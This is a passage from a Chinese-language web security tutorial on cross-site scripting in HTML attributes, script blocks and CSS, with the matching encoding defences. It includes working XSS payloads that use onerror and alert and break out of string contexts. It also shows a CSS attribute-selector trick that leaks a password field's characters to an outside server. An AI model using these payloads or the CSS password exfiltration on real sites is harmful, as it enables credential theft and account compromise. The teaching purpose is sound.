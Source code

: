 这种方式的解决方案是，所有需要输出到页面的元素全部通过 `HTMLEncode`。

## 在 `HTML` 属性中输出

在和 `HTML` 标签中输出攻击方式类似，只不过输出的内容会自动闭合标签。

```html
<a href="我是变量" ></a>
<!-- 我是变量: "><img src=1 onerror=alert(1)><" -->
<!-- 插入之后变为 -->
<a href=""><img src=1 onerror=alert(1)><""></a>
```

这种方式的防御方法仍然是 `HTMLEncode` 。

## 在 `<script>` 标签中输出

假设我们的变量都在引号内部：

```javascript
let a = "我是变量"
// 我是变量 = ";alert(1);//
a = "";alert(1);//"
```

攻击者只需要闭合标签就能实行攻击，目前的防御方法为 `JavaScriptEncode`。

## 在 `CSS` 中输出

在 `CSS` 中或者 `style` 标签或者 `style attribute` 中形成的攻击花样非常多，总体上类似于下面几个例子：

```html
<style>@import url('http:xxxxx')</style>
<style>@import 'http:xxxxx'</style>
<style>li {list-style-image: url('xxxxxx')}</style>
<style>body {binding:url('xxxxxxxxxx')}</style>
<div style='background-image: url(xxxx)'></div>
<div style='width: expression(xxxxx)'></div>
```

要解决 `CSS` 的攻击问题，一方面要严格控制用户将变量输入`style` 标签内，另一方面不要引用未知的 `CSS` 文件，如果一定有用户改变 `CSS` 变量这种需求的话，可以使用 `OWASP ESAPI` 中的 `encodeForCSS()` 函数。

一个很典型的第三方 `CSS` 库攻击的案例：

```css
input[type="password"][value$="0"]{ background-image: url("http://localhost:3000/0") }
input[type="password"][value$="1"]{ background-image: url("http://localhost:3000/1") }
input[type="password"][value$="2"]{ background-image: url("http://localhost:3000/2") }
input[type="password"][value$="3"]{ background-image: url("http://localhost:3000/3") }
input[type="password"][value$="4"]{ background-image: url("http://localhost:3000/4") }
input[type="password"][value$="5"]{ background-image: url("http://localhost:3000/5") }
input[type="password"][value$="6"]{ background-image: url("http://localhost:3000/6") }
input[type="password"][value$="7"]{ background-image: url("http://localhost:3000/7") }
input[type="password"][value$="8"]{ background-image: url("http://localhost:3000/8") }
input[type="password"][value$="9"]{ background-image: url("http://localhost:3000/9") }
...
```
